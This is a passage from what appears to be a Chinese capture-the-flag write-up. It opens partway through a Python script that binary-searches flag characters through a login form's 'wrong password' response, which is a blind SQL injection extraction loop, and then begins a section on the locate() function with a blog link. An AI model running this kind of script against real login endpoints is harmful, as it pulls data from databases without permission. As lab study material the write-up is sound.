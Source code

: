 ```python
                                                                                                                   mid)),
                'password': '1'
            }
            r = requests.post(url, data=data)
            if "密码错误" == r.json()['msg']:
                head = mid + 1
            else:
                tail = mid
            mid += 1
        if head != 32:
            result += chr(head)
            print(result)
        else:
            break

if __name__ == '__main__':
    index = getFlagIndex()
    getFlag(index)
```

### 重要函数

#### locate() 函数 

 https://blog.csdn.net/hello_world_9664/article/details/124159818

<img src="图片\Snipaste_2023-01-25_16-43-59.png" alt="Snipaste_2023-01-25_16-43-59" style="zoom:80%;" />
